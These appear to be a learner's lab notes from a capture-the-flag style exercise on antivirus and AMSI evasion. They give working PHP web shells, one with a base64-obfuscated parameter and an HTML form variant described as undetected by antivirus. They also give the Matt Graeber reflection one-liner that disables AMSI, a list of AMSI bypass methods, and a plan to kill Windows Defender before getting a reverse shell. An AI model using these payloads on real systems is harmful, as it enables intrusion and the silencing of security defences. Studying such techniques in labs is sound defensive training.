
Let's 1st try what we have learnt in wreath network and if it doesn't work will learn what they are teaching us.

Let's try this obfuscation
https://www.gaijin.at/en/tools/php-obfuscator
```
<?php system($_GET[base64_decode('Y21k')]);?>
```


As i was going through this Php obfuscation won't work so will have to learn something on the lines of either updating amsi.dll or obfuscate it aka AMSIception.



<hr>



There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade



<hr>


Will Target `Matt Graeber` reflection method as well as patching `amsi.dll`

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

##  It is helpful to think of obfuscation as an art rather than a technique.


To Begin with Obfuscation will focus on manual obfuscation more as it's more reliable compared to automated obfuscators.

To aid in our obfuscation efforts, we will use the AMSITrigger script, [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger), written by RythmStick


Automated obfuscators like Invoke-Obfuscation and ISE-Steroids to perform advanced string and signature manipulation.  

We again recommend using a development virtual machine to test and edit code.


When creating a token command, you will need to be careful not to obfuscate the payload too much and exceed the 8191 character limit in a Windows command prompt.


## So instead of all this will try this shell

![[Pasted image 20240825202530.png]]

Normal Payload
```
php system($_GET[base64_decode('Y21k')]);?>
```
It gets deleted as soon as we try to execute it. 


Payload that is not detected by AV
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


But not able to get the reverse shell which means we have to stop the AV first and than we are good to go.
Let's try to kill the windows defender
```

```
![[Pasted image 20240829023638.png]]